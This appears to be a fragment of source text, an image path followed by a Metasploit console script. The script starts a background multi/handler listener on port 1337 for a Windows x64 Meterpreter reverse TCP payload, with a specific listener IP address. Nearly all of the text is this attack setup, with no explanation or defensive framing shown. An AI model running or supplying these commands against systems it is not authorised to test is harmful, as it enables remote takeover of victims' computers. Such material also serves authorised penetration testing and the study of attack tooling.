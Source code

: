 use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 100.95.145.117
set LPORT 1337
set ReverseListenerBindAddress 0.0.0.0
exploit -j
